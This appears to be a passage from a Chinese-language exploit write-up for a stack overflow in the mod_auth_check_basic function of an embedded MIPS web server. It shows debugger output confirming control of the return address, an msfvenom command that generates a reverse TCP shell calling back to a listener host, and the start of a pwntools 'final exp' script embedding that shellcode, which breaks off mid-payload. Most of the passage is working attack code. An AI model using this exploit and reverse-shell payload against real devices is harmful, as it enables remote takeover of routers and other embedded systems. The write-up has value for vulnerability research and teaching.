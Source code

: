 ![](images/Pasted%20image%2020240605125827.png)
调试发现并不能直接返回：
在函数代码段找到：

```
   0x3fdf18d8 <mod_auth_check_basic+1600>    move   $sp, $fp
   0x3fdf18dc <mod_auth_check_basic+1604>    lw     $ra, 0x45c($sp)
   0x3fdf18e0 <mod_auth_check_basic+1608>    lw     $fp, 0x458($sp)
   0x3fdf18e4 <mod_auth_check_basic+1612>    addiu  $sp, $sp, 0x460
 ► 0x3fdf18e8 <mod_auth_check_basic+1616>    jr     $ra                           <0x44444444>
```
可以控制跳转地址了,把shellcode放到栈上或者放到User-Agent上就可以执行shellcode了，由于shellcode在子进程中执行，所以看不到回显，使用msf生成一个reverse shell code 来进行执行
`msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=111.111.111.111 LPORT=8888 -f python -o shell`
并且调整栈结构使其跳转到shellcode上：
最终exp:
```python
#coding:utf-8

import base64
# import requests
from pwn import *

context.update(arch = 'mips', bits = 32, endian = 'little', os = 'linux')

def exp(host,port):
	sh = remote(host,port=port)
	buf =  b""
	buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
	buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
	buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
	buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x34\x19\x0e\x3c"
	buf += b"\x34\x19\xce\x35\xe4\xff\xae\xaf\x01\x01\x0e\x3c\x7f"
	buf += b"\x01\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
	buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
	buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
	buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
	buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
```